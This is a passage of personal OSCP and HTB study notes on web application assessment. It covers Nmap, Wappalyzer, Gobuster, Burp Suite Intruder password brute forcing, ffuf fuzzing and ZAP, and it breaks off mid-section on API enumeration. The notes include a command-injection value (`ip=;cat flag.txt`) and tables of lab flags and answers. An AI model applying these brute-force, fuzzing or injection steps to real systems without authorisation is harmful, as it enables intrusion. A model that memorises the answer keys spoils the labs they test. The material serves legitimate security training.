







# Module 8: Introduction to Web Application Attacks

## Tags
#OSCP #Module8 #WebApplicationAttacks #Nmap #Wappalyzer #Gobuster #BurpSuite #XSS #API #OWASP #Ffuf #WebFuzzing #VHostFuzzing #ZAP #StoredXSS #ReflectedXSS #DOMXSS #BlindXSS #SessionHijacking #Phishing #HTBSupplementary

---

## **Why This Module Matters**
Modern web frameworks make it easy to spin up applications fast. That speed comes at a cost though: a large attack surface, made up of dependencies, insecure configs, immature codebases, and business-logic flaws.

This module covers the black-box web app testing workflow end to end. How to fingerprint and enumerate a target, the core tools of the trade (Nmap, Wappalyzer, Gobuster, Burp Suite), and then a full walkthrough of one of the most common and dangerous vulnerability classes: Cross-Site Scripting (XSS), including using it to escalate all the way to admin.

**✅ Status:** Fully written up. 8.1 through 8.5 complete, all labs answered.

---

## 8.1. Web Application Assessment Methodology

Before enumerating or exploiting anything, it's worth knowing *what kind* of test you're actually running. It changes how much legwork enumeration requires.

**Three testing approaches, by how much information you're given:**
- **White-box testing.** Full access to source code, infrastructure, and design docs. Most thorough, but requires source-code/logic-review skills, and takes longer relative to codebase size.
- **Black-box testing** (a.k.a. zero-knowledge test). No information given at all, you invest heavily in enumeration first. Typical of bug bounty engagements. **This module focuses on black-box testing.**
- **Grey-box testing.** Somewhere in between: limited info like scope, auth methods, or credentials.


*One axis: how much you're told going in. This module lives at the black-box end deliberately, since that's where enumeration skill actually gets built.*

**OWASP Top 10:** the OWASP Foundation periodically publishes a list of the most critical web application security risks. This module (and the ones following it) will work through exploiting several vulnerabilities from that list. They're the basic building blocks for more advanced attacks covered later in the course.

#### Tags: #WhiteBoxTesting #BlackBoxTesting #GreyBoxTesting #OWASPTop10

---

## 8.2. Web Application Assessment Tools

Before diving into enumeration technique, it's worth getting familiar with the actual tools. **Nmap** (revisited for web-specific enumeration), **Wappalyzer** (technology stack fingerprinting), **Gobuster** (directory/file brute forcing), and **Burp Suite** (the workhorse web proxy for the rest of this course).

#### Tags: #WebAppTools

---

### 8.2.1. Fingerprinting Web Servers with Nmap

The web server itself is the common denominator of any web application, so it's the natural starting point.

**Step 1: Identify the web server banner with a service scan**
```bash
sudo nmap -p80 -sV 192.168.50.20
```
*Expect output like:*
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

**Step 2: Go further with a web-specific NSE script**
```bash
sudo nmap -p80 --script=http-enum 192.168.50.20
```
*`http-enum` fingerprints the web server and looks for common interesting paths. Expect output like:*
```
| http-enum:
|   /login.php: Possible admin folder
|   /db/: BlogWorx Database
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
```

🔁 **Similar to:** this is the same NSE machinery covered back in [[06. Information Gathering#6.4.3. Port Scanning with Nmap|Module 6, 6.4.3 (Port Scanning with Nmap)]] and [[07. Vulnerability Scanning#7.3. Vulnerability Scanning with Nmap|7.3 (Vulnerability Scanning with Nmap)]]. Same `--script` category/name syntax, same `script.db`. Just applied here with a web-enumeration-flavored script (`http-enum`) instead of `vuln`/`vulners`.

#### Tags: #NmapWebFingerprint #HttpEnum #BannerGrabbing

---

### 8.2.2. Technology Stack Identification with Wappalyzer

Wappalyzer passively identifies a site's OS, UI framework, web server, and JavaScript libraries via a free online Technology Lookup. No active traffic against the target required. Together those components are often called the site's tech stack, meaning the full set of software layers powering it.

🔁 **Similar to:** Wappalyzer was already introduced back in [[06. Information Gathering#6.2.3. Netcraft|Module 6, 6.2.3 (Netcraft)]] as a *passive* recon tool. Same tool, same purpose here. Knowing a JS library's exact version can flag known CVEs in that library.

> ⚡ **Modern tool:** both 8.2.1's banner grab and this Wappalyzer lookup are single-host, single-tool-at-a-time steps. [[Httpx]] does status code + page title + tech-stack fingerprinting in one pass, and across a whole list of hosts at once, worth reaching for once there's more than one target to fingerprint.

#### Tags: #Wappalyzer #TechStackFingerprinting #PassiveRecon #JSLibraries

---

### 8.2.3. Directory Brute Force with Gobuster

Once a web server/app is confirmed, the next step is mapping its files and directories. Gobuster automates this via wordlist-based brute forcing.

> **Caution:** Gobuster's brute-forcing nature is noisy. Not suitable for stealth engagements.

**Step 1: Run a directory brute force scan**
```bash
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```
*`-u` = target, `-w` = wordlist, `-t` = thread count (lower means quieter/slower). Expect output like:*
```
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://192.168.50.20/css/]
/db                   (Status: 301) [Size: 311] [--> http://192.168.50.20/db/]
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/uploads              (Status: 301) [Size: 316] [--> http://192.168.50.20/uploads/]
```
*`403` means it exists but is forbidden. `301`/`302` means a redirect (directory or moved page). Anything else is worth investigating further.*

> ⚡ **Modern tool:** [[Feroxbuster]] does the same wordlist-based discovery but recurses into subdirectories automatically instead of needing a manual re-run per discovered folder. [[Ffuf]] is the more flexible option when the fuzz point isn't a plain URL path (a header, a POST field, an extension list).

#### Tags: #Gobuster #DirectoryBruteForce #DirbWordlist

---

### 8.2.4. Security Testing with Burp Suite

Burp Suite Community Edition is the GUI web-testing platform used throughout the rest of this course. A proxy that sits between your browser and the target, letting you inspect and modify every request/response.

**Step 1: Launch Burp Suite**
```bash
burpsuite
```
*Or via Kali menu: Applications → 03 Web Application Analysis → burpsuite. Ignore the JRE compatibility warning, Kali's shipped Java version is always tested against it.*

**Step 2: Start a project**
Choose **Temporary project** → Next → leave **Use Burp defaults** selected → **Start Burp**.

**Step 3: Turn off Intercept**
Go to the **Proxy** tab → **Intercept** sub-tab → toggle it off.
*With Intercept on, you'd have to manually click Forward on every single request. Fine for a request you want to tamper with, tedious for just browsing.*

**Step 4: Confirm the listener port**
Proxy → **Options** sub-tab. *Default listener is `127.0.0.1:8080`. This is what your browser needs to point at.*

**Step 5: Point Firefox at the Burp proxy**
In Firefox: `about:preferences#general` → scroll to **Network Settings** → **Settings** → choose **Manual proxy configuration** → HTTP Proxy `127.0.0.1` port `8080` → enable **also for HTTPS** (use this proxy for all protocols).

**Step 6: Browse and observe**
Browse to the target site, then check **Burp → Proxy → HTTP History**. Every request your browser made should now be listed, each one inspectable in full (request left pane, response right pane).

> 📸 Screenshot: the HTTP History tab with a captured request open, worth grabbing since this is the view you'll live in for the rest of the course

> 🎥 **Video:** ["Burp Suite Repeater & Intruder Tutorial"](https://www.youtube.com/watch?v=ft5MSmf42Kw), found via search, covers the same two tools this section leans on most. Content unverified beyond title match (same YouTube-fetch limitation noted elsewhere in this vault), worth 5-10 minutes to confirm it matches Community Edition specifically before relying on it.

> **Tip. Noisy `detectportal.firefox.com` entries:** go to `about:config`, accept the risk warning, search `network.captive-portal-service.enabled`, set it to `false`.

**Burp Repeater** resends and modifies any captured (or hand-crafted) request repeatedly, reviewing the response each time. Right-click a request in HTTP History → **Send to Repeater** → click **Send**.

**Burp Intruder** automates attacks across a range of payloads (brute force, fuzzing, etc). Needs a stable hostname first if the target uses one internally:

**Step 7: Add a static hosts entry for a target hostname**
```bash
echo "192.168.50.16 offsecwp" | sudo tee -a /etc/hosts
```

**Step 8: Capture a login attempt, send it to Intruder**
Browse to the login page, submit a dummy login (e.g. `admin`/`test`), find the resulting POST request in **Proxy → HTTP History**, right-click → **Send to Intruder**.

**Step 9: Mark the payload position**
In **Intruder → Positions**, click **Clear** to remove all auto-marked positions, then select just the password field's value and click **Add**. This tells Intruder to vary *only* that field.

**Step 10: Provide a wordlist**
In **Intruder → Payloads**, paste in candidate passwords (e.g. the first handful of lines from `rockyou.txt`) under **Payload Options: [Simple list]**.

**Step 11: Launch and inspect results**
Click **Start attack**. *Look for a response with a different status code/length than the rest. That's the hit. Confirm by logging in with it directly.*

> 📸 Screenshot: the Intruder attack results grid, with the differently-sized/status-coded response that gave away the hit

> **Caution:** if Firefox is set to proxy through Burp and Burp is closed, Firefox will stop working until you either restart Burp or revert the proxy setting.

> 📋 Generalized copy-pasteable commands for this technique: [[Web Applications#Burp Suite|Command Appendix]]
> 🧭 Quick lookup: [[Web Applications (Decision Tree)|Decision Tree]]

#### Tags: #BurpSuite #BurpProxy #BurpRepeater #BurpIntruder #EtcHosts #PasswordBruteForce

**Lab status: ✅ Completed:**

| Question | Answer |
|---|---|
| Which Burp tool best suits brute forcing a 4-digit SMS 2FA keyspace? | **Intruder** |
| HTTP response code Gobuster shows for a redirection during dir brute force? | **301** |
| Default port Burp Proxy listens on? | **8080** |
| DIRTBUSTER site (Module Exercise VM #1). Flag after finding + logging into the hidden admin portal? | **OS{bc86b454747f947aa80e882c0c4e9536}** |
| DIRTBUSTER changed creds (Module Exercise VM #2). Brute forced `admin`'s new password from `passwords.txt`, flag after login? | **OS{45815439d68d307517ee9ff95330f701}** |

#### Tags: #Lab #Quiz #Module8

---

## 8.3. Web Application Enumeration

With the toolset covered, this section focuses on digging into an application itself. Debugging page content, inspecting headers/sitemaps, and probing APIs.

#### Tags: #WebAppEnumeration

---

### 8.2.5. Fuzzing with Ffuf

Not its own Offsec module, but a dedicated tool worth knowing well: **ffuf** (Fuzz Faster U Fool) covers all the same ground as 8.2.3's Gobuster, directory/page discovery, virtual host enumeration, parameter/value brute-forcing, and adds recursive scanning, multi-extension fuzzing, and powerful response filtering in one tool.

**The whole model:** ffuf replaces the `FUZZ` keyword in a URL, header, or POST body with each line from a wordlist, sends the request, and reports back which responses look different from the noise.

**Core flags:**
| Flag | What it does |
|------|-------------|
| `-w wordlist:KEYWORD` | Wordlist path, `:KEYWORD` names the placeholder if using multiple wordlists (defaults to `FUZZ`) |
| `-u URL` | Target URL, put `FUZZ` wherever you're injecting |
| `-e .php,.html` | Append extensions to each wordlist word |
| `-recursion` / `-recursion-depth N` | Recurse into found directories, to depth N |
| `-H 'Name: FUZZ'` | Fuzz a header value (vhost enum uses this on `Host:`) |
| `-X POST -d 'body'` | POST with a fuzzable body |
| `-fs`/`-fw`/`-fl`/`-fc N` | Filter by size/word count/line count/status code, suppress the noise |
| `-mr "regex"` | Only show responses whose body matches this regex, the power move when you already know what a hit looks like |
| `-ac` | Auto-calibrate: sends canary requests and determines the noise baseline for you, skips the manual two-step filtering dance |

> 🔍 **Worth remembering generally:** the two-step filtering workflow is always the same. First run without a filter to see what the noise responses look like (they flood the output at a consistent size/word/line count), then re-run with `-fs SIZE` (or `-fw`/`-fl`) to suppress it. Or skip both steps with `-ac`.



**Directory + page fuzzing**, same idea as 8.2.3's Gobuster:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u 'http://TARGET:PORT/FUZZ'
```
A `200` with `Size: 0` still means the directory exists (no default index), follow it up. A `301` means it redirected, add the trailing slash and fuzz inside. Once a directory's found, extension-fuzz its index page first to learn what the server actually serves (`web-extensions.txt` against `/dir/indexFUZZ`), then fuzz page names with that extension. `-recursion -recursion-depth 1 -e .php` does both directory discovery and extension-aware page fuzzing in one queued pass.

**Sub-domain fuzzing** (real DNS resolution) vs **VHost fuzzing** (Host-header injection against a fixed IP) are different and complementary, always do both:
```bash
# Sub-domain: needs to resolve in real DNS
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u 'http://FUZZ.inlanefreight.com/'

# VHost: fixed IP, changing Host header, finds vhosts that AREN'T in public DNS
sudo sh -c 'echo "TARGET_IP academy.htb" >> /etc/hosts'
ffuf -s -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ \
     -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb' -ac
```
After finding new vhosts, add them all to `/etc/hosts` before continuing.

**Parameter and value fuzzing**, find the field name first, then its accepted value:
```bash
# GET parameter names (dummy value "key", just probing which name the server recognises)
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
     -u 'http://TARGET:PORT/admin.php?FUZZ=key' -fs 798

# POST value fuzzing once the parameter name is known
ffuf -s -w ids.txt:FUZZ -u 'http://TARGET:PORT/admin.php' -X POST -d 'id=FUZZ' \
     -H 'Content-Type: application/x-www-form-urlencoded' -fs 768
```

> 🔧 **Technique:** a `200` response with `Size: 0` isn't necessarily empty, could be a redirect or dynamic page, always visit it directly to confirm. `403` on an extension like `.phps` means the extension is recognised but the server refuses to serve source directly, still worth noting as it confirms that source exists.

> 🔧 **Technique:** always include `Content-Type: application/x-www-form-urlencoded` when fuzzing POST form data, without it the server may not parse the body correctly and you'll get false results.

> 🔍 **Worth remembering generally:** the exact same value-fuzzing technique works for login-form brute forcing, fuzz `password=FUZZ` with rockyou and filter out the "wrong credentials" response size. It's essentially Hydra's `http-post-form` mode via ffuf instead.

**Full skills-assessment chain** (vhost → extension → recursive+`-mr` → POST param → POST value):


> 📸 Screenshot: ffuf output at each stage of the chain above, vhost hits, the recursive `-mr` match, and the final curl'd flag

> 🔁 **Similar to:** 8.2.3's Gobuster covers the same ground with a slightly different interface, ffuf is faster and more flexible (native recursion, `-mr` regex matching, header/body fuzzing built in); Gobuster's output reads slightly more cleanly for a quick one-off.

**Lab status: ✅ Completed** (all fuzzing-type labs + skills assessment):

| Question | Answer |
|---|---|
| Directory Fuzzing: extra directory alongside `blog`? | **forum** |
| Page Fuzzing flag (`/blog/home.php`)? | **HTB{bru73_f0r_c0mm0n_p455w0rd5}** |
| Recursive Fuzzing flag (`/forum/flag.php`)? | **HTB{fuzz1n6_7h3_w3b!}** |
| Sub-domain Fuzzing: "customer portal" sub-domain? | **customer.inlanefreight.com** |
| VHost Filtering: new vhost beyond `admin`? | **test.academy.htb** |
| GET Parameter Fuzzing: valid parameter name? | **user** |
| Value Fuzzing flag (POST `id=73`)? | **HTB{p4r4m373r_fuzz1n6_15_k3y!}** |
| Skills Assessment Q1: all sub-domains found? | **archive, test, faculty** |
| Skills Assessment Q2: accepted extensions? | **.php, .php7, .phps** |
| Skills Assessment Q3: page with "You don't have access!"? | **http://faculty.academy.htb:PORT/courses/linux-security.php7** |
| Skills Assessment Q4: valid POST parameters? | **user username** |
| Skills Assessment Q5: final flag (`username=harry`)? | **HTB{w3b_fuzz1n6_m4573r}** |

#### Tags: #Ffuf #WebFuzzing #DirectoryFuzzing #VHostFuzzing #ParameterFuzzing #SkillsAssessment #Module8

---

### 8.2.6. Advanced Proxy Techniques: Burp Decoder, Payload Processing, and ZAP

8.2.4 covers Burp's basic setup, Repeater, and Intruder. This extends the proxy toolkit with the pieces the Offsec module doesn't touch: multi-round decoding, chained payload transforms, routing other tools through the proxy, and ZAP as a full alternative to Burp.

**FoxyProxy** (Firefox extension) switches between named proxy profiles via a toolbar icon, useful once you're regularly flipping between Burp and ZAP:

| Profile | Host | Port |
|---|---|---|
| `Burp (8080)` | 127.0.0.1 | 8080 |
| `ZAP (8090)` | 127.0.0.1 | 8090 |

> 🔍 **Worth remembering generally:** switching FoxyProxy to the right profile before starting the tool saves the "why isn't Burp intercepting" confusion. If pages stop loading with a proxy enabled, the tool crashed or Intercept is on without an active listener.

**Encoding a modified value in-place:** with Intercept on and a request paused, highlight a parameter value and hit `Ctrl+U` to URL-encode it inline (`ip=;cat flag.txt` → `ip=%3bcat+flag.txt`), then Forward. Right-click → URL-encode does the same thing if the shortcut slips your mind.

**Burp Decoder for stacked encoding**, paste the value in, click **Decode as → Base64**, and if the result still looks like base64 (still ends in `=`), decode again, repeat until the format changes, then decode that layer (URL, hex, whatever it is). The giveaways for what layer you're looking at: base64 ends in `=`/`==`, URL encoding shows `%XX`, hex looks like a run of `4854427b...`.

> 🔍 **Worth remembering generally:** stacked encoding shows up constantly in obfuscated cookies and exfiltrated data. Work through one layer at a time, Decoder keeps the full chain visible so you can trace back if you decode one step too many.

**Routing other tools through Burp/ZAP** to see exactly what they send on the wire:
```bash
# Metasploit
msfconsole -q
use auxiliary/scanner/http/http_put
set PROXIES HTTP:127.0.0.1:8080          # ZAP: HTTP:127.0.0.1:8090
run

# curl
curl https://<target> --proxy http://127.0.0.1:8080 -k

# Anything respecting the standard env vars
export HTTP_PROXY="http://127.0.0.1:8080" HTTPS_PROXY="http://127.0.0.1:8080"
```
> 🔍 **Worth remembering generally:** routing a tool through Burp is the fastest way to reverse-engineer what it actually sends, sometimes revealing a path or parameter the tool itself never surfaces in its own output.

**Burp Intruder payload processing pipeline**, chaining transforms so each candidate gets built up before sending, e.g. fuzzing the last character of a partially-known hash that then gets base64-then-hex encoded as a cookie:

| Step | Rule | Value |
|---|---|---|
| 1 | Add prefix | the known partial hash |
| 2 | Encode: Base64 | (none) |
| 3 | Encode: ASCII hex | (none) |

> 🔧 **Technique:** processing rules run top-to-bottom, build the string first (prefix), then encode in the same order the target originally applied it. To find that order, decode the real value layer by layer (as above) and note the sequence, then reverse it.

**ZAP as a full Burp alternative**, same underlying model, different UI:
- **Fuzzer with Processors**: right-click a request → Attack → Fuzz, pick the value, add a payload file, then add a **Processor** (e.g. MD5 Hash) so ZAP hashes each candidate automatically before sending, no pre-hashing the wordlist yourself.
- **Spider + Active Scan**: browse the target once to seed history, right-click → Attack → Spider to crawl it, then Attack → Active Scan to run automated vulnerability checks. Watch the Alerts tab's High column, don't wait for the full scan, the moment a High alert appears, open it and work the finding via **Open/Resend with Request Editor**.
- **Replacer**: auto-modifies requests/responses in transit, e.g. stripping a `disabled>` attribute from an HTML response so a client-side-disabled button renders clickable, persists for the whole session instead of re-editing the DOM every page load.

> 🔧 **Technique:** match on `disabled>` (with the closing bracket) rather than bare `disabled` in Replacer rules, to avoid stripping the literal word out of unrelated text or attributes.

> 🔍 **Worth remembering generally:** Burp/ZAP barely appear as a *required* tool in OSCP exam boxes, the exam tests manual exploitation, not proxy workflows. Their real value is speed: Repeater/Fuzzer let you iterate on a payload far faster than re-submitting a browser form each time. Treat them as workflow accelerators, not the technique itself.

> 📸 Screenshot: Burp Decoder mid-chain on a multi-layer encoded cookie; ZAP's Alerts tab with a High-severity finding expanded; ZAP Replacer's rule dialog with a stripped `disabled` button rendering clickable

**Lab status: ✅ Completed** (all technique labs + skills assessment):

| Question | Answer |
|---|---|
| Intercepting Web Requests: modified POST command injection flag? | **HTB{1n73rc3p73d_1n_7h3_m1ddl3}** |
| Repeating Requests: flag at /flag.txt via Repeater? | **HTB{qu1ckly_r3p3471n6_r3qu3575}** |
| Encoding/Decoding: multi-round decode flag? | **HTB{3nc0d1n6_n1nj4}** |
| Proxying Tools: last line in the MSF request via Burp? | **msf test file** |
| Burp Intruder: flag from /admin/ .html fuzz? | **HTB{burp_1n7rud3r_fuzz3r!}** |
| ZAP Fuzzer: flag from MD5 cookie fuzz? | **HTB{fuzz1n6_my_f1r57_c00k13}** |
| ZAP Scanner: flag via Active Scan RCE? | **HTB{5c4nn3r5_f1nd_vuln5_w3_m155}** |
| Skills Assessment: disabled button bypass flag? | **HTB{d154bl3d_bu770n5_w0n7_570p_m3}** |
| Skills Assessment: 31-char decoded cookie value? | **3dac93b8cd250aa8c1a36fffc79a17a** |
| Skills Assessment: flag from MD5 fuzz with encoding pipeline? | **HTB{burp_1n7rud3r_n1nj4!}** |
| Skills Assessment: ColdFusion directory in MSF request? | **CFIDE** |

#### Tags: #BurpSuite #BurpDecoder #BurpIntruder #ZAP #ZAPFuzzer #ZAPScanner #ZAPReplacer #FoxyProxy #Module8

---

### 8.3.1. Debugging Page Content

**URL clues:** file extensions (`.php`, `.jsp`, `.do`) can hint at the backend language, though modern route-based frameworks (web apps where URLs are handled by the app's own code rather than pointing to actual files sitting on the server's disk) make this less reliable, since a URI no longer has to map to a literal file.

**Firefox Debugger (Web Developer menu):** shows page resources/content. JS frameworks, hidden input fields, HTML comments, client-side validation logic. Minified JS (JavaScript that's been compressed down into a single barely-readable line to reduce file size, a standard website optimisation) can be cleaned up with the **Pretty print source** button (the `{}` icon) for readability.

**Firefox Inspector:** right-click any page element → **Inspect** to jump straight to its HTML in the DOM tree. Handy for spotting hidden form fields quickly.

#### Tags: #FirefoxDebugger #FirefoxInspector #PrettyPrint #HiddenFormFields

---

### 8.3.2. Inspecting HTTP Response Headers and Sitemaps

**Firefox Network tool (Web Developer menu):** shows requests/responses from the moment it's opened onward. Refresh the page after opening it to capture traffic. Click a request → look at its **response headers**.

**The `Server` header** often reveals the web server software (and sometimes its version). Non-standard headers (historically prefixed `X-`, though RFC6648, the formal internet standard that deprecated the `X-` prefix convention for custom headers, now discourages that) can leak stack details too. For example `x-amz-cf-id` implies Amazon CloudFront is in front of the app (CloudFront is Amazon's CDN, a content delivery network that sits between users and the actual web server, caching and routing traffic globally).

**Sitemaps and `robots.txt`:** sitemap files help search engines crawl a site. `robots.txt` instead tells crawlers what *not* to index, often sensitive/admin paths, exactly what's interesting to a pentester.

**Step 1: Pull a target's robots.txt**
```bash
curl https://www.google.com/robots.txt
```
*Look at the `Disallow:` lines specifically. Those are the paths the site owner didn't want indexed.*

#### Tags: #HTTPResponseHeaders #ServerHeader #NonStandardHeaders #RobotsTxt #Sitemap

---

### 8.3.3. Enumerating and Abusing APIs

REST APIs are common in custom-built web apps. In a black-box test you won't get documentation, you have to discover the API surface yourself.

**Step 1: Brute force API paths with a version-number pattern**
Create a pattern file (e.g. `pattern`) containing:
```
{GOBUSTER}/v1
{GOBUSTER}/v2
```
Then run:
```bash
